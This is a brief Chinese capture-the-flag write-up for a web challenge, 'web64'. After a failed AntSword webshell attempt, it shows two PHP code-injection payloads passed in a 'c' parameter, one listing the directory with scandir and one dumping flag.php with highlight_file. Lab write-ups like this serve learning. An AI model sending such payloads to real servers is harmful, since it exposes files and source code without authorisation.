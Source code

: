 
#### web64

蚁剑尝试失败

构建命令，查看flag位置

```
c=print_r(scandir(dirname(__FILE__)));
```

![image-20240122123035077](image/image-20240122123035077.png)

构建命令，查看flag

```
c=highlight_file("flag.php");
```

得到flag
